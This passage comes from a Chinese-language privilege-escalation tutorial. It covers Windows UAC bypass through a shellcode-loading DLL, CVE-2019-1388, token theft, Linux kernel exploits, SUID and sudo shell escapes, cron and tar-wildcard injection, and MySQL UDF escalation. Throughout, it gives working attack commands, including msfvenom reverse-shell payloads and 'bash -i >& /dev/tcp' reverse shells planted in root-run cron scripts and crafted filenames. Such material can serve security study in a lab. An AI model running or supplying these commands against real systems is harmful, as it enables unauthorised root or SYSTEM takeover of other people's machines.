	memcpy(lpBase, shellcode, sizeof(shellcode));
	JMP_SHELLCODE jmp_shellcode = (JMP_SHELLCODE)lpBase;
	jmp_shellcode();
	return 0;
}
BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason,LPVOID lpvReserved)
{
	switch(fdwReason)
	{
	 	case DLL_PROCESS_ATTACH:
		{
	 		hThread = CreateThread(NULL, 0, jmp_shellcode, 0, 0, 0);
		}
	 	case DLL_PROCESS_DETACH:
	 	{
	 		break;
	 	}
	 	case DLL_THREAD_ATTACH:
	 	{
	 		break;
	 	}
	 	case DLL_THREAD_DETACH:
	 	{
	 		break;
	 	}
	}
	return TRUE;
}
```

```
将编译好的dll放到环境变量下。
```

	

```
重新运行SystemPropertiesAdvanced.exe系统属性程序,于是提权成功。
由于白名单本身就是默认绕过UAC的，所以执行这个白名单程序里面触发执行的恶意dll文件，也就会让cs获得绕过UAC用户的会话。
```

		

	

### CVE-2019-1388 UAC提权

```
漏洞描述
CVE-2019-1388 UAC提权是一个Windows证书对话框特权提升漏洞，此漏洞是因为 UAC（用户账户控
制）机制的设定不严导致的。默认情况下，Windows UAC 提示本身是由名为 consent.exe 的可执行文件生成的，该可执行文件以SYSTEM身份运行并且有 System 的完整性水平。由于用户可以与此UI 进行交互，因此有必要对 UI 进行严格限制。否则，低特权用户可能能够通过UI操作提权到system权限。
```

```
漏洞原理
如果在运行一个可执行文件的时候我们触发了 UAC，在点击「显示有关此发步者的证书的信息」这个链接之后我们可以看到证书里的 Issued by（颁发者） 字段，这个字段对应的值就是 OID值，如果这里是一个超链接就可以提权，如果不是就不行。通过点击此链接会触发以 SYSTEM 权限打开浏览器，然后此浏览器就会有 SYSTEM 权限，（浏览器打开必须先要关闭UAC对话框）通过保存按钮打开CMD，CMD就会继承浏览器的 SYSTEM 权限，由此就完成了由普通用户到SYSTEM 用户的提权。
实验环境一台server2008
```

```
查看当前的用户权限是wanli，是一个低权限
```

	

```
由于目前的UAC弹窗的证书都不是网页链接
所以打开这个CVE-2019-1388漏洞程序，点击显示详细信息里显示的显示有关此发布者的证书的信息，就会是网页链接。
```

	

	

```
点击另存为。
```

	

```
在文件名的位置输入如下的信息 C:\Windows\System32\*.* 然后回车。
```

	

```
右键打开。
```

​		

```
此时打开的cmd就是system权限。
```

	

### Windows令牌概述和令牌窃取攻击

```
令牌（Token）是系统的临时密钥，相当于账户名和密码，用来决定是否允许这次请求和判断这次请求是属于哪一个用户的，它允许你在不提供密码或其他凭证的前提下，访问网络和系统资源，这些令牌持续存在系统中，除非系统重新启动.令牌最大的特点就是随机性，不可预测，一般黑客或软件无法猜测出来，令牌有很多种。
访问令牌（Access Token）表示访问控制操作主题的系统对象,比如访问一些系统程序。
会话令牌(Session Token)：是交互会话中唯一的身份标识符，可以理解为web中的token
密保令牌（Security Token）又叫作认证令牌或者硬件令牌，是一种计算机身份效验的物理设备
```

```
Windows 的访问令牌（ AccessToken） 有两种类型
Delegation Token：授权令牌，也叫主令牌，支持交互式会话登录 (例如本地用户直接登录、远程桌面登录访问)
Impresonation Token：模拟令牌，支持非交互的会话 (例如使用 net use访问共享文件夹)。
两种 token 只在系统重启后清除 具有 Delegation token 的用户在注销后，该 Token 将变成Impersonation token，依旧有效。
```

```
incognito.exe是一个令牌窃取的工具，常用用法如下
incognito.exe list_tokens -u 列出用户的令牌
incognito.exe execute -c "令牌" 程序名 使用窃取的令牌执行命令
```

```
1、当我们拿到一个权限的时候，如果是普通的用户或者有UAC认证的管理员用户，可以窃取的令牌只有自己的令牌不能用于提权。
incognito.exe list_tokens -u
```

	

```
2、如果是administrator或者绕过的UAC的管理员，就可以窃取到system用户的令牌
incognito.exe list_tokens -u
```

	

```
3、使用窃取的令牌进行提权，此时使用whoami就是system权限了。
incognito.exe execute -c "NT AUTHORITY\SYSTEM" cmd.exe
```

	

## Linux提权

### Linux内核提权

```
内核提权是利用Linux内核的漏洞进行提权的。内核漏洞进行提权一般包括三个环节：
1、对目标系统进行信息收集，获取到系统内核信息以及版本信息；
2、根据内核版本获取其对应的漏洞以及EXP；
3、使用找到的EXP对目标系统发起攻击，完成提权操作
```

```
查看Linux操作系统的内核版本和相关信息
cat /etc/issue 查看ubuntu或者centos的版本
cat /etc/*-release 查看centos版本
uname -a 查看系统全部信息
uname -r 查看内核版本
```

	

```
目前该用户的权限是普通用户
```

	

```
在kali中寻找关于这个内核相关的漏洞。
searchsploit linux 5.10.0-1023
```

	

```
输入searchsploit -m linux/local/50808.c
就会自动复制该文件到当前目录，并且也得知道漏洞编号，可以去网上查找对应的漏洞编号来复现提权。
```

		

```
首先配合msf上线这个ubuntu。
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.15.141 LPORT=7777 -f elf > mshell.elf
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set lhost 192.168.15.141
set lport 7777
run
并且ubuntu执行恶意脚本。
```

	

```
将CVE漏洞提权脚本上传到对方ubuntu主机上。
upload /root/50808.c
```

	

```
把提权漏洞进行gcc编译。
gcc -o test123 50808.c
```

	

```
执行提权漏洞，此时发现权限为root
./test123 /usr/bin/su
```

	

```
此时就可以做一些操作了，比如说给管理员改密码等等。
```

	

### 利用SUID文件提权

```
利用SUID文件提权 
SUID是一种特殊权限，设置了suid的程序文件，在用户执行该程序时，用户的权限是该程序文件属主的权限，例如程序文件的属主是root，那么执行该程序的用户就将暂时获得root账户的权限。sgid与suid类似，只是执行程序时获得的是文件属组的权限。passwd这个命令程序的权限设置，它就是设置了suid权限的。

注意以下几点：
1. 只有可以执行的二进制程序文件才能设定SUID权限,非二进制文件设置SUID权限没任何意义.
2. 命令执行者要对该程序文件拥有执行(x)权限.
3. 命令执行者在执行该程序时获得该程序文件属主的身份.
4. SUID权限只在该程序执行过程中有效,也就是说身份改变只在程序执行过程中有效

设置suid的方法:
chmod u+s filename   设置SUID位
chmod u-s filename   去掉SUID设置
```

```
SUID提权原理
原理：利用某些二进制文件设置了SUID权限，从而用root权限执行系统命令
常见的可以用来提权的命令如下：
nmap、vim、find、bash、more、less、nano、cp、awk、mv
```

```
比如管理员为了方便，给find命令设置了suid权限，以供普通用户可以查找敏感目录下的文件。
chmod u+s /usr/bin/find
```

	

```
我们控制了一个普通用户，那么可以使用该命令，去寻找有哪些命令具有suid权限
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls {} \; 2>/dev/null

分别解释命令的参数
-user root：只查找所有者为 root 的文件。
-perm -4000：查找具有 SUID 权限的文件，4000 代表 SUID 位。
-print：在找到符合条件的文件后，将其路径打印到标准输出。
2>/dev/null：将标准错误输出重定向到 /dev/null
-perm -u=s：表示查找具有 SUID 权限的文件
-type f：限制查找结果为普通文件
-exec ls {} \;：对每个找到的文件，执行 ls 命令，{} 会被 find 找到的每个文件替换。\; 表示命令的结束。
```

	

```
2、利用find提权，首先find的文件必须存在，才能exec后面的命令。
find 123 -exec whoami \;
find . -exec /bin/sh -p \; -quit
```

	

```
BASH提权 
bash命令是用来打开一个shell。同时它也有执行命令的能力。 因此，如果配置为使用SUID权限运行，则可以通过bash执行的命令都将以root身份去运行。

还是一样的首先给bash赋予suid权限
chmod u+s /usr/bin/bash
查看哪些命令具有suid权限
find / -user root -perm -4000 -print 2>/dev/null
```

	

```
该命令即可提权。
bash -p
```

	

```
VIM提权 
利用vim提权的思路是修改/etc/passwd文件和/etc/shadow，为自己添加一个有root权限的用户
chmod u+s /usr/bin/vim
查看哪些命令具有suid权限
find / -user root -perm -4000 -print 2>/dev/null
```

	

```
利用vim提权
第一种方式，利用vim添加账号
vim /etc/passwd   添加特权用户
vim /etc/shadow  添加新用户密码
先打开passwd配置文件，复制root用户那一行，然后把root改成需要创建的新用户名称,这样就具备root权限
再打开shadow文件，同理可以找一些已知的密文密码复制进去即可。
```

	

	

```
使用这个新用户登录，那么此时拥有root权限
```

	

```
第二种方式，利用vim打开交互shell
vim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```

	

```
利用python提权。
利用vim提权的思路是修改/etc/passwd文件和/etc/shadow，为自己添加一个有root权限的用户
chmod u+s /usr/bin/python
查看哪些命令具有suid权限
find / -user root -perm -4000 -print 2>/dev/null
```

	

```
提权命令
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
命令解释
vim 命令中的 -c 参数允许你在启动 vim 时运行一条 vim 内部的命令
```

	

### 计划任务提权

```
提权原理 
linux计划任务提权是因为权限配置不当，计划任务以root权限运行，低权限的用户可以修改计划任务的文件，从而被攻击者利用，导致提权，Linux计划任务命令如下
crontab -e 编辑计划任务
crontab -l 查看计划任务
crontab -r 删除目前的crontab
注意如果直接使用crontab -e写计划任务，那么执行计划任务的就是这个用户，并且无法指定其他用户运行。
如果要指定其他用户运行，那要在指定的/etc/crontab下编辑。
```

```
分时计划的格式
分 时 日 月 周 用户 命令
```

	

```
假如root管理员编辑了一个运维脚本，但是权限设置不妥当，并且还设置了计时任务，那么将会使得其他被控制的普通用户，在这个运维脚本里面填写恶意的命令，从而来提权。
比如root编写一个脚本如下

function bash_os() {
# "系统基础信息"
#内核信息
kernel=$(uname -r)
#操作系统版本
release=$(cat /etc/redhat-release)
#主机名称
hostname=$HOSTNAME
#当前时间及运行时间
dateload=$(uptime | awk -F "," '{print $1}')
# 当前登录用户数
users=$(uptime | awk -F "," '{print $2}')
echo -e "\n\033[32m##############系统基础信息 #######\033[0m\n" >> /tmp/bash_os.txt
echo -e "\033[32m------------------------------------\033[0m" >> /tmp/bash_os.txt
echo -e "|内核信息:\033[31m $kernel \033[0m" >> /tmp/bash_os.txt
echo -e "\033[32m------------------------------------\033[0m" >> /tmp/bash_os.txt
echo -e "|操作系统版本:\033[31m $release \033[0m" >> /tmp/bash_os.txt
echo -e "\033[32m------------------------------------\033[0m" >> /tmp/bash_os.txt
echo -e "|当前时间及运行时间:\033[31m  $dateload \033[0m" >> /tmp/bash_os.txt
echo -e "\033[32m------------------------------------\033[0m" >> /tmp/bash_os.txt
echo -e "|当前登录用户数:\033[31m $users \033[0m" >> /tmp/bash_os.txt
echo -e "\033[32m------------------------------------\033[0m" >> /tmp/bash_os.txt
}
bash_os
```

	

```
并且给了777的权限。
```

	

```
设置计划任务，使得每隔一分钟执行一次该脚本。
vim /etc/crontab
service crond status 查看计划任务启动
service crond restart 重启计划任务		
```

	

```
控制centos7普通用户的权限，然后再运维脚本注入反弹shell.
echo "bash -i >& /dev/tcp/192.168.15.141/6666 0>&1" >> bash_os.sh
并且kali使用ncat进行监听反弹shell
nc -lvvp 6666
```

	

	

```
提权成功。
```

	

### sudo滥用提权

```
提权原理 
sudo是linux系统管理指令，是允许系统管理员让普通用户执行一些或者全部的root命令的一个工具，如reboot，su等等。这样不仅减少了root用户的登录 和管理时间，同样也提高了安全性。sudo不是对shell的一个代替，它是面向每个命令的。在一些应用场景里面，为了方便运维人员以低权限帐号进行运维，往往会开启帐号的一些SUDO权限给运维帐号，而SUDO权限的授予在/etc/sudoers中进行操作。
```

```
在/etc/sudoers的主要配置
cseroad ALL=(ALL:ALL) NOPASSWD:/usr/bin/apt-get
cseroad表示用户名；第一个 ALL 指示允许从任何终端访问sudo；第二个 (ALL:ALL)指示sudo命令可以以任意用户身份运行、任意组执行；第三个 NOPASSWD 表示不需要输入密码且可以sudo执行的命令
```

```
如果给sudo配置文件配置了ALL(所有命令都可sudo) 或者以下的命令就可以进行提权
wget、find、cat、apt、zip、xxd、time、taskset、git、sed、pip、ed、tmux、scp、perl、
bash、less、awk、man、vi、env、ftp、ed、screen
提权的命令具体如下
一条命令提权的
sudo vim -c '!sh'
sudo awk 'BEGIN {system("/bin/sh")}'
sudo xxd "/etc/shadow" | xxd -r
sudo env /bin/sh
sudo perl -e 'exec "/bin/sh";'
sudo zip 2.zip 1.txt -T --unzip-command="sh -c /bin/sh"
sudo sed -n '1e exec sh 1>&0' /etc/passwd
sudo find /etc/passwd -exec /bin/sh \;
两条命令提权的
sudo git help config
!/bin/sh
sudo ftp
!/bin/sh
sudo less /etc/hosts
!sh
sudo ed
!/bin/sh
sudo man man
!/bin/sh
```

```
这个sudo漏洞的前提就是设置了不输入密码所导致的。
使用root用户配置/etc/sudoer，设置henry可以使用sudo使用sudo执行所有命令，并且不用密码。
```

		

```
配置好这个漏洞环境后，使用msf上线。
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.15.141 LPORT=7777 -f elf > mshell.elf
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set lhost 192.168.15.141
set lport 7777
run
```

```
使用sudo来执行提权命令后就变成root了。
```

	

### 通配符ws提权

```
接下来介绍一个非常有趣而又古老的技术通配符注入提权，首先先看下什么是通配符，在LINUX中通配符可以被用来模糊匹配，而且通配符的输入是由当前用户的shell去进行解析
*   代表任意数量的字符
?   字符代表单个字符  
[] 匹配括号中的任意单一字符 可以使用连字符-表示范围，比如[0-9]
```

```
比如说创建三个文件，其中有一个文件名是--help
如果我们使用通配符ls *,其实本质上就是ls file1;ls file2;ls --help,--help是一个关键参数，所以利用这一点可以实现提权漏洞。
```

	

```
一般都有备份网站的习惯，那么运维人员或管理员填写了备份文件的计划任务任务，如果滥用了通配符，就可能导致提权。
下面设置每隔一分钟就备份网站，并且以root权限执行。
vim /etc/crontab
注意配置当中*号必须和/之间有空格。
*/1 * * * * root tar -zcf /tmp/html.tgz /tmp/www/ *
```

		

```
环境准备好后，于是可以先使用msf控制一个普通用户来尝试提权。
```

	

```
查看计划任务情况，发现有以root权限执行，而且还使用了通配符。
```

		

```
于是在网站根目录下，以命令关键字作为文件名称进行创建。
echo " " > /tmp/www/--checkpoint=1
echo " " > /tmp/www/--checkpoint-action=exec='bash shell.sh'
echo "bash -i >&/dev/tcp/192.168.15.141/6666 0>&1" > /tmp/www/shell.sh
```

	

```
并且kali进行端口监听。于是即可监听到即可获得root权限。
```

	

	

### 破解明文root密码提权

```
提权原理
大多数linux系统的密码都和/etc/passwd和/etc/shadow这两个配置文件息息相关。passwd里面储存了用户，shadow里面是密码的hash。出于安全考虑passwd是全用户可读，root可写的。shadow是仅root可读写的，当管理员的passwd和shadow一些权限配置不当就可能会导致提权
```

```
如果普通用户能够查看/etc/shadow文件，那么可以把全部内容复制下来到一个txt文件中。
```

	

```
使用john工具暴力破解。
john.exe -wordlist=pass.txt  C:\Users\40409\Desktop\shadow.txt
```

	

## 数据库提权

### UDF提权

```
MySQL的内置函数虽然丰富，但毕竟不能满足所有人的需要，有时候我们需要对表中的数据进行一些处理而内置函数不能满足需要的时候，就需要对MySQL进行一些扩展，幸运的是，MySQL给使用者提供了添加新函数的机制，这种使用者自行添加的MySQL函数就称为UDF(User Define Function)。UDF机制能够起作用，必须使用C或者C++编写函数，你的系统必须支持动态加载,mysql采用动态链接库加载自定义函数。udf就是为了让我们开发者能够自己写方便自己函数，它有3种返回值，这三种分别是STRING(字符型)，INTEGER(整型)，REAL(实数型)。

生成动态链接库
动态链接提供了一种方法，使进程可以调用不属于其可执行代码的函数。函数的可执行代码位于一个 DLL 文件中，该 DLL 包含一个或多个已被编译、链接并与使用它们的进程分开存储的函数。DLL 还有助于共享数据和资源。多个应用程序可同时访问内存中单个 DLL 副本的内容。windows是dll文件，linux是so文件
```

```
dll路径
1、mysql<5.0,路径随意
3、5.0<=MYsql<5.1， 放置系统目录（system32）
2、mysql>5.1，udf.dll文件必须放置在mysql安装目录的lib\plugin文件夹下，(lib\plugin目录默认不存在，需自行创建)
```

```
首先拿到webshell，然后打开数据操作连接靶机的mysql.
```

	

	

```
查看数据库版本。最好使用mysql5.1版本之前的，不然可能会出现打不开dll库的情况。
```

	

```
为什么要查询读写权限呢？因为我们要将动态连接文件导入到相应的目录里
show global variables like 'secure%'; 
查询 secure_file_priv 的值为 NULL ，表示限制 mysqld 不允许导入|导出，此时无法提权 secure_file_priv 的值为 /tmp/ 。
表示限制 mysqld 的导入|导出只能发生在 /tmp/ 目录下，此时也无法提权 secure_file_priv 的值没有具体值时。
表示不对 mysqld 的导入|导出做限制，此时可提权。
```

	

```
动态链接文件不用我们生成了，在sqlmap中已经存在，或者msf中也存在，我们只需要用就行了，不需要在去写源代码。

其中分为windows 和linux 版本 分别有32位和64位，kali的目录下自带提权的dll。
sqlmap/data/udf/mysql
metasploit-framework/data/exploits/mysql/
但是sqlmap中的是通过加密的，需要用解密脚本解密，解密脚本在 /sqlmap/extra/cloak/cloak.py
```

	

	

```
首先根据指定选择web使用的指定数据，然后创建一个临时表，用来存放DLL/OS文件的16进制内容
CREATE TABLE temp_udf (udf blob);
```

	

```
从metasploit拿到提权dll转换成十六进制的内容。这个使用自己本机的mysql转换。以下图片是转换的十六进制的内容
select hex(load_file('C:/udf.dll')) into dumpfile 'c:/udf.txt'
```


```
将转换好十六进制的内容的数据插入表中。
INSERT into temp_udf values (CONVERT($binaryCode,CHAR));
将$binarycode换成转换好的十六进制内容，然后插入到表中。
```

​		

```
根据mysql的版本，由于是5.0<=MYsql<5.1，所以把表中的数据导出成dll文件放置系统目录（system32）
SELECT udf FROM temp_udf INTO DUMPFILE "C:\\Windows\\System32\\udf.dll"
```

```
根据这个dll创建扩展的内置函数
create function sys_eval returns string soname 'udf.dll';
```

	

```
此时执行命令就是高权限了，由于hsw是管理员但是没绕过UAC，但是mysql服务是由hsw打开的，那么使用这个创建的函数的用于身份就是hsw,就可以绕过UAC权限了。从而实现提权。
```

	

```
比如说任意创建用户，删除用户。
```

	

	


